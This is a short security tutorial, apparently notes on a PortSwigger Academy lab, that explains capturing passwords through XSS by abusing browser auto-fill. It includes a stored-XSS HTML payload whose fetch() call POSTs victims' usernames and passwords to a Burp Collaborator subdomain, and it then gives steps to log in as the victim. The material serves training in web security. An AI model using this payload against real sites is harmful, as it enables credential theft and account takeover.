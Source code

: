 One technique of capturing passwords using XSS is by taking advantage of the password auto-fill.

These days, many users have password managers that auto-fill their passwords. You can take advantage of this by creating a password input, reading out the auto-filled password, and sending it to your own domain.
## Example from PortSwigger Academy
1. Using [Burp Suite Professional](https://portswigger.net/burp/pro), go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's username and password in the POST body.
6. Use the credentials to log in as the victim user.
> Note: If Burp Collaborator is not available, we can use [CanaryTokens](https://canarytokens.org/generate#) and [interactsh](https://github.com/projectdiscovery/interactsh) as alternatives.